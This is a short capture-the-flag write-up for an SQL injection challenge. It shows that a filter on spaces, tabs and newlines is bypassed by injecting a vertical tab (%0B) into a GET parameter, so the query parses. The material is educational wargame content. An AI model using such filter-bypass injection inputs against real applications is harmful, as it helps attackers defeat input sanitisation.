 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 14
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cf244332-a0d2-4992-a29d-c16c73b69db7)

We are provided with the SQL query:

```sql
SELECT 1234 FROM{$_GET[shit]}prob_giant WHERE 1
```

### Filter

The code filters out the following characters:

- Space 
- New line 
- Carriage return
- Tab

In order to solve the challenge, we have to separate the `FROMprob_giant`.
Since Tabs are filtered out, we have to use the Vertical tab (`%0B`) character.

```
?shit=%0B
```

SQL parsers typically treat vertical tabs as whitespace. Therefore, injecting a vertical tab (`%0B`) should be parsed as a space by the SQL engine.

The resultant query becomes:

```sql
SELECT 1234 FROM prob_giant WHERE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/633b9e01-cf5c-4b96-ae06-ceae467e3971)
